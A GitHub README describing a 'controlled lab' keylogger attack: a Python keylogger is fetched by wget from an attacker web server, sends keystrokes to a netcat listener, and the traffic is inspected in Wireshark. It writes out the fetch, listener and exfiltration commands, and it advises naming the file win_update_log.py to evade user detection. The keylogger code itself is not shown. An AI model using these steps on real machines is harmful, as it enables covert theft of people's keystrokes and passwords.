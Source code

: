 # 🛡️ Keylogger Lab Project (Controlled Ethical Simulation)

This project demonstrates how a simple keylogger can be used to capture keyboard inputs from a **victim machine (Windows 11 Pro)** and exfiltrate the data to an **attacker's machine (Kali Linux)** using **Python sockets and Netcat**, while also capturing and analyzing the traffic with **Wireshark**.

> 🚨 This project is for **educational** and **ethical hacking research** purposes **only**. Do **NOT** use this code outside of a controlled lab environment. See the disclaimer at the bottom.

---

## 📚 Overview

The objective of this project is to **simulate a keylogging attack** in a controlled lab setting and study how data exfiltration can occur in real-world scenarios. This simulation includes:

* A **Python-based keylogger** using the `pynput` library
* **Netcat** on Kali Linux acting as the attacker’s listener
* **Wireshark** for monitoring captured keystrokes over the network
* Transfer of the malicious script using `wget`

---

## 🧪 Lab Setup

| **Component**      | **Configuration**                     |
| ------------------ | ------------------------------------- |
| 🧑‍💻 **Attacker** | Kali Linux                            |
| 🧑‍💻 **Victim**   | Windows 11 Pro (VM or Physical)       |
| 🌐 **Network**     | Host-only Adapter or Internal Network |

---

## 🔗 Attack Flow

1. **Attacker** hosts the keylogger script on a web server.
2. **Victim** downloads the script using `wget` in PowerShell or CMD.
3. **Victim** runs the script, which sends keystrokes to the **attacker's IP and port** via TCP.
4. **Attacker** listens on a specified port using **Netcat**.
5. **Wireshark** captures and inspects the network traffic.

---

## 🧰 Tools Used

* `Python 3` — Programming language used to write the keylogger
* `pynput` — Python library to capture keyboard events
* `socket` — Built-in Python module for TCP communication
* `Netcat` — Lightweight TCP/UDP listener
* `Wireshark` — Packet analyzer used for forensic inspection
* `wget` — Utility for script transfer via HTTP

---

## 💻 Simulation Steps (Controlled Lab Environment)

### ✅ Step 1: **Host the Keylogger on the Attacker Machine (Kali)**

On your **Kali Linux**, run a Python HTTP server to host the keylogger:

```bash
cd /path/to/keylogger_script/
python3 -m http.server 8080
```

---

### ✅ Step 2: **Download the Script on the Victim Machine (Windows 11 Pro)**

On the **Windows** machine, open **PowerShell or Command Prompt as Administrator** and run:

```powershell
wget http://<KALI_IP>:8080/win_update_log.py -OutFile win_update_log.py
```

> 📝 Replace `<KALI_IP>` with your actual Kali Linux IP address.

---

### ✅ Step 3: **Start the Listener on the Attacker Machine (Kali)**

On **Kali**, open another terminal and run:

```bash
nc -lvnp 4444
```

> 🎯 **Keep this terminal open.** Incoming keystrokes from the victim will appear here.

---

### ✅ Step 4: **Run the Keylogger on the Victim Machine (Windows 11 Pro)**

Make sure your script contains the following call in the `__main__` section:

```python
Keylogger("YOUR_KALI_IP", 4444).start()
```

> 📝 Replace `"YOUR_KALI_IP"` with your actual IP address.

Then, in the same terminal where you downloaded the script, run:

```powershell
python win_update_log.py
```
Hint: The reason behind using win_update_log.py was to evade detection by the user. So you can change the name to anything you want to suit your needs.

> As the user types on the **Windows** machine, their keystrokes will be displayed in real time in the Netcat terminal on **Kali**.

---

### 🧪 Optional: **Capture Network Traffic with Wireshark**

On your **Kali Linux** machine:

1. Open **Wireshark**
2. Start capturing on the interface used (e.g., `eth0`, `enp0s3`, or similar)
3. Use this **display filter** to isolate the traffic:

```text
tcp.port == 4444
```

> 🔍 Observe how **raw keystrokes** are transmitted over the network.

---

## ⚠️ Disclaimer

This project is provided for educational and ethical research purposes only. The author does not condone or encourage the use of these techniques outside a legal and controlled environment. Misuse of this information may violate local or international laws.

